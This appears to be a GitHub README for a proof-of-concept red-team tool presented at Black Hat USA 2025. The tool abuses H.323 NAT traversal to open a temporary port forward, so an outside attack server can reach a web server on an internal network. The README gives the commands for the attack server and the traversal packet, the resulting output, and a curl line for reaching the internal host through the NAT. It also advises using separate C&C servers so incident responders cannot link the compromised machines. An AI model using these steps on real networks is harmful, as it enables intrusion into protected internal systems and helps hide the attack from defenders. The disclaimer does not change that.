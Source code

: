 # Simple H.323 NAT traversal

A tool that opens a temporary DNAT using H.323 NAT traversal to create a breakpoint for red teaming under NAT environments!

## Reference

- This is a PoC code for Black Hat USA 2025 Briefing: [From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678) 
- This idea is derived from [NAT slipstreaming](https://samy.pl/slipstream) by [@samykamkar](https://twitter.com/samykamkar)

## Usage

1. **Start the attack server** (example IP: `9.9.9.9`):

    ```bash
    python3 server.py 
    Listening on 0.0.0.0:1720 ...
    ```

2. **Send an H.323 NAT traversal packet**  
   - NAT public IP: `2.2.2.2`
   - Compromised device internal IP: `192.168.1.2`
   - Internal web server IP: `192.168.1.3`

    ```bash
    python3 main.py -d <next_target_ip> -p <next_target_port> -s <attack_public_ip>
    python3 main.py -d 192.168.1.3 -p 8080 -s 9.9.9.9
    ```

3. **Server output:**

    ```
    Listening on 0.0.0.0:1720 ...
    Connected by: 2.2.2.2:41658
    Received Remote IP (from payload): 2.2.2.2
    Received Remote Port (from payload): 8080
    ```

4. **Now you can directly access** `http://192.168.1.3:8080/` **via** `curl http://2.2.2.2:8080/`

5. **Logs from 192.168.1.3:**

    ```
    python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    9.9.9.9 - - [07/Jun/2025 10:10:08] "GET / HTTP/1.1" 200 -
    ```
    > You will see that the logs show requests coming from 9.9.9.9, making it impossible to associate them with 192.168.1.2.

## Best Practices

- Use different IP C&C servers for `192.168.1.2` and `192.168.1.3`.
- This makes it difficult for IR teams to correlate the two machines and trace the attacker's path.


## Disclaimer
This project is intended for educational and research purposes only. Any actions and/or activities related to this code are solely your responsibility. The authors and contributors are not responsible for any misuse or damage caused by this project. Please ensure that you have proper authorization before testing, using, or deploying any part of this code in any environment. Unauthorized use of this code may violate local, state, and federal laws.

## License
This project is licensed under the terms of the MIT license.
